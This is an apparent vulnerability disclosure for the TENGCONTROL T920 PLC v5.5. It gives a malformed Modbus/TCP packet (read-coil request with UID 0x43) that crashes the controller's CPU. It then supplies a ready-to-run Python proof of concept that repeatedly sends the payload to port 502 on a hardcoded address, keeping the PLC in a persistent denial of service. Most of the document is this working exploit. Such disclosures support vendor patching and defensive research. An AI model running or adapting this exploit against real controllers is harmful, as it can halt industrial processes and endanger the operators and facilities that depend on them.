

# TENGCONTROL TECHNOLOGY

## Edition :

TENGCONTROL TECHNOLOGY T920 PLC v5.5

## Location 

abnormal data："\x19\xb2\x00\x00\x00\x06\x43\x01\x00\xac\xff\x00"

### Harm

Allows attackers to exploit this vulnerability to initiate a persistent denial of service attack on the controller remotely.

### Cause the cause

By constructing the above specific network data packet, the T-920 CPU can be denied service when communicating, and the CPU enters the failure mode and can be automatically restarted after a period of time. The vulnerability is exploited by an attacker to remotely initiate a persistent denial of service attack on the controller, affecting the normal operation of the controller.
When the T-920 reads a single coil, when the UID is 0x43, an abnormality occurs and the CPU refuses to service.

(1) Before using the attack script, the PLC is in normal communication state, check whether the network is connected using the following command:

Ping 192.168.1.99（PLC default IP address）

 
 
（2）After running the exploited python script, check the network connection status and the running status of the PLC.

 
 
It can be observed that the PLC has refused service, the network has been pinged, and after a few seconds, the PLC CPU restarts; once the CPU restarts, the attacker uses the vulnerability to continuously send data to make the PLC continuously refuse service, which in turn affects the normal operation of the PLC.

## poc

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
import sys
import argparse
import socket
import os
import time
from random import randint

TIMEOUT = 2
PORT = 502
ip = "192.168.1.99"

def get_args():
   
    parser = argparse.ArgumentParser()
    parser.add_argument('-ip', metavar='<ip addr>', help='IP address',required=True)
    args = parser.parse_args()
    return args

payload_List = [
"\x19\xb2\x00\x00\x00\x06\x43\x01\x00\xac\xff\x00"
]
print("payload_List = ",payload_List)

# Send payload to the PLC and return the response
def connection_plc(ip, payload_List, t_sleep=0):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(TIMEOUT)
        s.connect((ip, PORT))
	print "connect success====\n" 

	for payload in payload_List:
	    s.send(payload)
	    time.sleep(0.005)

	print "send success===\n" 
	#print("payload_List = ",payload_List)
        # Silly check. Enough for the Poc
    except Exception as e:
        print "[-] Something was wrong with %s:%d. Exception: %s" % (ip, PORT, e) 
        #sys.exit(1)

    s.close()
    time.sleep(t_sleep)
    return 

def main():
	for i in range(10000):
		time.sleep(1)
    #args = get_args()
		#print("payload_List = ",payload_List)
		connection_plc(ip, payload_List)

if __name__ == '__main__':
    main()

```


